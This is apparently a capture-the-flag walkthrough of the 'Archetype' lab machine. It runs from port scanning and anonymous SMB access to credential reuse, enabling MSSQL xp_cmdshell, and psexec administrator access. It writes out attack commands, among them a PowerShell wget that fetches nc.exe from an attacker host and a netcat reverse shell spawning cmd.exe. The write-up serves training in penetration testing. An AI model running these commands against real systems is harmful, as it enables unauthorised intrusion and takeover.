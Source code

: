 ```yaml
---
published: true
layout: post
---
```

<center>
<script src="https://tryhackme.com/badge/39696"></script>
</center>


This one was a classic, the room revolves around a misconfiguration in mssql that allows the user to enable_xp_cmdshell which opens a path to achieve remote code execution on the machine via xp_cmdshell. And a later exploitation of an unsecured important file that led to full access on the machine.  




## Information Gathering
---
### Starting with a port scan:
First we do a fast scan in order to identify what ports are up and running:   
**nmap 10.10.10.27 -p- -Pn --min-rate 1500 -vvv -oN AllPorts.txt**
![nmap.png]({{site.baseurl}}/images/nmap.png)


And after that we run a full scan on the ports that we have identified:    
 **sudo nmap 10.10.10.27 -p 135,139,445,1433,5985,47001 -sVC -O -v -oA FoundPorts.txt**

which gives us the following output:
![nmap2.png]({{site.baseurl}}/images/nmap2.png)


We can check the running services and see that the running OS is Windows. Even more, it seems to be running a Microsoft Windows Server between version 2008 R2 and 2012 which are known to have quite a handful of exploits. Only in 2021 there have been [186 exploits](https://stack.watch/product/microsoft/windows-server-2008/#:~:text=In%202021%20there%20have%20been,had%20382%20security%20vulnerabilities%20published.&text=However%2C%20the%20average%20CVE%20base,2021%20is%20greater%20by%200.42.) with an average CVE of 7.9 out of 10.

We also see **WinRM** (Windows Remote Management) that is a Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.
[EvilWinRm](https://github.com/Hackplayers/evil-winrm) can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff. 




## The SMB share
---
Having port 445 up hints me to try to connect to HTB Archetype using smb.

**smbclient -L 10.10.10.27**  
![smbp.png]({{site.baseurl}}/images/smbp.png)


Looks like we have found quite a few shares, even without using a password.
The most interesting share is "**backups**" which is also the only non-default share.  
Using **smbclient \\\\10.10.10.27\\backups** we can connect to this share.

We now have access to a config file **prod.dtsConfig** that  can be downloaded with: 
**get prod.dtsConfig**.
![smb2.png]({{site.baseurl}}/images/smb2.png)


The file was actually a lucky hit as it contains information about the backend database and also an username and password pair which can be used to gain a foothold on the box.

![file.png]({{site.baseurl}}/images/file.png)




## Obtaining a foothold
---
I am going to use the **impacket mssql client** from [SecureAuthCorp](https://github.com/SecureAuthCorp/impacket) in order to connect to the database.

### Installing steps
1. cd /opt  && sudo git clone https://github.com/SecureAuthCorp/impacket.git
2. cd impacket/
3. sudo pip3 install .
4. sudo python3 setup.py install

The command line goes as it follows:  
 **python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth**

_Note:  "-windows-auth" flag is very important since w/o it the shell won't be able to connect to the database._

This lands us in a what appears to be a SQL shell, running a few SQL commands seem to prove my hypothesis, now as with any other tool that you are not quite sure how it's supposed to be run, typing HELP is always a good option ;).

![sql.png]({{site.baseurl}}/images/sql.png)

As it looks like we have enough privileges to enable xp_cmdshell, so we go on and type **enable_xp_cmdshell;** and after that **reconfigure;**.


Now in order to see if we can run commands i'm going to try the following syntax: **xp_cmdshell powershell whoami /priv**, and this sure enough returns the Privileges information of the current user.
![shrll1.png]({{site.baseurl}}/images/shrll1.png)  

_Note: Pay attention to [SeImpersonatePrivilege](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) as this will be important later, also it helps reading about [exploitable windows tokens](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) if you're interested in privilege escalation techniques_

Now as we got a foothold we can either try to get a more stable shell, or proceed with this one. But for now this is enough to grab the user flag.
![FlagUser.png]({{site.baseurl}}/images/flag1.png)
 



## Escalating to a reverse shell
---
Escalating to a reverse shell in this scenario is pretty much trivial and can be done in a handful of ways.
The way i'm going to do it is by uploading an [old windows netcat executable](https://github.com/Ev3nS/Useful-Pentesting-Executables) that has the **-e flag** in order to spawn a powershell.exe and send it to my local listener.

### Uploading  nc.exe
1. Spawning a http server on desktop (where the executable is located):  
![httpServer.png]({{site.baseurl}}/images/httpServer.png)
2. Getting the executable on the machine with the command line:  
**xp_cmdshell powershell "wget http://YourIP:GivenPort/nc.exe -OutFile %temp%/nc.exe"**  
![SqlCommand.png]({{site.baseurl}}/Images/SqlCommand.png)


### Getting the shell
1. Spawning a local listener on port 4444 with the command line: **nc -lvnp 4444**
2. Running the uploaded executable as it follows: **xp_cmdshell  powershell "nc.exe YourIP YourPort -e cmd.exe"**  
![SqlCommand2.png]({{site.baseurl}}/Images/SqlCommand2.png)
3. Check if we got a hit on our local listener:  
![FirstCmdShell.png]({{site.baseurl}}/Images/FirstCmdShell.png)




## Escalating to a root shell
---
As of now, we have full access to a low privileged account, so a good thing to do is to enumerate what you can do with that account on the system. Also we know from the SMB chapter that this user can Impersonate Tokens, which means that we can take ownage of a process run by a higher privileged user on the system and create a privileged shell. This can be done via [Juicy-Potato exploit](https://github.com/ohpe/juicy-potato). But for the sake of this room i will go with an easier path, as this vulnerability will be exploited in a later post.

Once you gain access to a shell in general it is good to check a few things: what privileges you have, what processes are running, what is your ip, who else is on the box, what files you have access to, any weird files/binaries/executables that shouldn't be there, are there any notes or secret files that are left unprotected? what's the bash/batch history and so on.

Fortunately, while digging for the last accessed files i've found this peculiar file lying around:  		 

![oddfile.png]({{site.baseurl}}/images/oddfile.png)

As it looks like this file was actually pretty useful as it leaks the credentials of the administrator account:  
![creds.png]({{site.baseurl}}/images/creds.png)


Now as we have the credentials we can use a [python tool for PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) in order to remotely connect to the box as administrator:
![root.png]({{site.baseurl}}/Images/root.png)

All that is left to do now is to grab the root flag and we're done.    
![rootflang.png]({{site.baseurl}}/images/root2.png)



## Conclusions
---
On an ending note, i really liked this box for the fact that it promotes a good pentesting methodology, it's backbone is just a lot of enumeration and googling  and it offers a nice corelation between different services.
